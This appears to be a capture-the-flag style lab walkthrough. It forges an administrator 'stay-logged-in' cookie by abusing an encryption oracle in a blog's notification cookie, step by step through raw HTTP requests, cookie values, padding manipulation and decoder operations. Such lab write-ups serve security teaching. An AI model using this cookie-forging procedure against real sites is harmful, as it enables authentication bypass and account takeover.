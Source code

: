 ```bash

Into the GET request

GET /post?postId=5 HTTP/1.1

Cookie: notification=%46%65%77%55%47%69%39%75%45%67%74%4a%75%71%47%5a%78%4d%6a%4e%67%32%5a%46%66%4a%33%69%75%47%31%57%6c%45%62%67%70%2b%38%58%43%4a%35%79%50%41%69%48%76%59%38%4d%51%62%45%3d; session=lnfbYP75b3DqJmO7bess1phMoKUJEmWI; stay-logged-in=8yYBZDyTHrJNAKkaZ0j3S9%2fr5N947vGNP4AX35XnXUg%3d

Note the response:

Input length must be multiple of 16 when decrypting with padded cipher

Go to encrypt:
Add 9 characters to the "administrator:1652404285092" email
This will add 9 bytes to the soon to be deleted 32 bytes
The initial 23 bytes + 9 bytes == 32 bytes // 32 is divisible by 16 as per "Input length must be multiple of 16 when decrypting with padded cipher"

csrf=3NXKYV35ErVIRbNw1R8gQ7g0LirtAjFd&postId=5&comment=wrong&name=name&email=xxxxxxxxxadministrator:1652404285092&website=

Send this request then capture the "Set-Cookie: notification" response excluding the semi-colon

Set-Cookie: notification=j2uekPaXgr7oN%2bmcGApykemQCmppXxjqwW6SHHOEOCwdoEGQXJtZkd7V3bQNc05ux6lcgUZRE4CsuiF4C9almA%3d%3d; 

Send to decoder:

j2uekPaXgr7oN%2bmcGApykemQCmppXxjqwW6SHHOEOCwdoEGQXJtZkd7V3bQNc05ux6lcgUZRE4CsuiF4C9almA%3d%3d

Decode content:
URL-decode
Base-64 decode
Delete 32 bytes
Re-encode content:
Base-64 encode
URL-encode

%48%61%42%42%6b%46%79%62%57%5a%48%65%31%64%32%30%44%58%4e%4f%62%73%65%70%58%49%46%47%55%52%4f%41%72%4c%6f%68%65%41%76%57%70%5a%67%3d

Go to decrypt:
Place

%48%61%42%42%6b%46%79%62%57%5a%48%65%31%64%32%30%44%58%4e%4f%62%73%65%70%58%49%46%47%55%52%4f%41%72%4c%6f%68%65%41%76%57%70%5a%67%3d

Into the GET request

GET /post?postId=5 HTTP/1.1

Cookie: notification=%48%61%42%42%6b%46%79%62%57%5a%48%65%31%64%32%30%44%58%4e%4f%62%73%65%70%58%49%46%47%55%52%4f%41%72%4c%6f%68%65%41%76%57%70%5a%67%3d; session=lnfbYP75b3DqJmO7bess1phMoKUJEmWI; stay-logged-in=8yYBZDyTHrJNAKkaZ0j3S9%2fr5N947vGNP4AX35XnXUg%3d

Response:

HTTP/1.1 200 OK

administrator:1652404285092

Go to: Proxy
```